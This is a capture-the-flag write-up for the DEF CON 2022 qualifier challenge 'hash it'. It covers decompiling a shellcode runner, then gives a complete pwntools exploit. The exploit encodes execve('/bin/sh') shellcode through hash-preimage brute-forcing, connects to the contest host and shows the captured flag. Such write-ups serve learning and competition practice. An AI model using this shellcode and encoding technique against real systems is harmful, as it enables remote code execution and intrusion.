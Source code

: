 # DEF CON CTF Qualifier 2022

## hash it

[`challenge`](challenge)

Tags: _pwn_ _hash_ _shellcode_ _x86-64_


## Summary

Shellcode runner where each byte is the first digest byte (of one of four popular algorithms) of each pair of hashed bytes, i.e.:

```
shellcode[i] = hash[i & 3](byte[i] << 8 + byte[i+1]).digest[0]
```

## Analysis

### Decompile in Ghidra

```c
undefined4 main(void)
{
  int iVar1;
  void *__src;
  void *__dest;
  code *pcVar2;
  uint uVar3;
  uint uVar4;
  ulong __size;
  undefined local_3d;
  uint local_3c [3];
  
  alarm(10);
  local_3c[0] = 0;
  iVar1 = fread_frontend(stdin,local_3c,4);
  if (iVar1 == 0) {
    local_3c[0] = local_3c[0] >> 0x18 | (local_3c[0] & 0xff0000) >> 8 | (local_3c[0] & 0xff00) << 8 | local_3c[0] << 0x18;
    __size = (ulong)local_3c[0];
    __src = malloc(__size);
    if ((__src != (void *)0x0) && (iVar1 = fread_frontend(stdin,__src,__size), iVar1 == 0)) {
      if (local_3c[0] != 0) {
        uVar3 = 0;
        do {
          uVar4 = uVar3 >> 1;
          iVar1 = FUN_00101320(*(undefined *)((long)__src + (ulong)uVar3),
                               *(undefined *)((long)__src + (ulong)(uVar3 + 1)),&local_3d,
                               (&PTR_EVP_md5_001040a0)[uVar4 & 3]);
          if (iVar1 != 0) {
            return 0xffffffff;
          }
          uVar3 = uVar3 + 2;
          *(undefined *)((long)__src + (ulong)uVar4) = local_3d;
        } while (uVar3 < local_3c[0]);
      }
      __dest = mmap((void *)0x0,(ulong)(local_3c[0] >> 1),7,0x22,-1,0);
      pcVar2 = (code *)memcpy(__dest,__src,(ulong)(local_3c[0] >> 1));
      (*pcVar2)();
      return 0;
    }
  }
  return 0xffffffff;
}
```

The main `do`/`while` loop hashes pairs of chars by calling `FUN_00101320`, and specifying with this table, which hash to use:

```
                             PTR_EVP_md5_001040a0                            XREF[2]:     main:00101181(*), 
                                                                                          main:001011b0(R)  
        001040a0 20 50 10        addr       <EXTERNAL>::EVP_md5                              = ??
                 00 00 00 
                 00 00
                             PTR_EVP_sha1_001040a8                           XREF[1]:     main:001011b0(R)  
        001040a8 60 50 10        addr       <EXTERNAL>::EVP_sha1                             = ??
                 00 00 00 
                 00 00
        001040b0 88 50 10        addr       <EXTERNAL>::EVP_sha256                           = ??
                 00 00 00 
                 00 00
        001040b8 80 50 10        addr       <EXTERNAL>::EVP_sha512                           = ??
                 00 00 00 
                 00 00
```

The first byte of the digest is stored in `local_3d` and that is then used to overwrite our original input:

```c
*(undefined *)((long)__src + (ulong)uVar4) = local_3d;
```

At the end of the loop, the decoded input is copied to a newly `mmap`'d space and executed.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *
import hashlib

binary = context.binary = ELF('./hash_it',checksec=False)

shellcode = asm(f'''
lea rdi, [rip+binsh]
xor rsi, rsi
xor rdx, rdx
mov eax, {constants.SYS_execve}
syscall
binsh: .asciz "/bin/sh"
''')

s = b''
for i, c in enumerate(shellcode):
    for j in range(2**16):
        if i & 3 == 0: m = hashlib.md5()
        if i & 3 == 1: m = hashlib.sha1()
        if i & 3 == 2: m = hashlib.sha256()
        if i & 3 == 3: m = hashlib.sha512()
        m.update(p16(j))
        if m.digest()[0] == c:
            s += p16(j)
            break
    else:
        print('failed')
        sys.exit(1)

if args.REMOTE:
    p = remote('hash-it-0-m7tt7b7whagjw.shellweplayaga.me',31337)
    p.sendlineafter(b'Ticket please: ',b'ticket{TackCormorant970n22:7BX7Fil8VnjawYCOu7riER6pzHaYzLr7ZF3DYF8zJOC8Wr9P}')
    sleep(0.2)
else:
    p = process(binary.path)

p.send(p32(len(s))[::-1])
p.send(s)
p.interactive()
```

Above I'm just creating my shellcode, then encoding it by brute searching which pair of bytes will hash producing a first digest byte that matched my assembled shellcode.

That's it.

> I should have mentioned in the analysis section that we have to first send the length as exactly 4 bytes before sending the encoded shellcode.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to hash-it-0-m7tt7b7whagjw.shellweplayaga.me on port 31337: Done
[*] Switching to interactive mode
$ cat flag
flag{TackCormorant970n22:GhmoNCJeGsHN8kJ5TE3Jo7GnGV6F21KN2e8hQT2rrUEbPIsOaPrTWQy3CuB2IaUxA-36MthoyBMJy4Z_2Ht4dw}
```
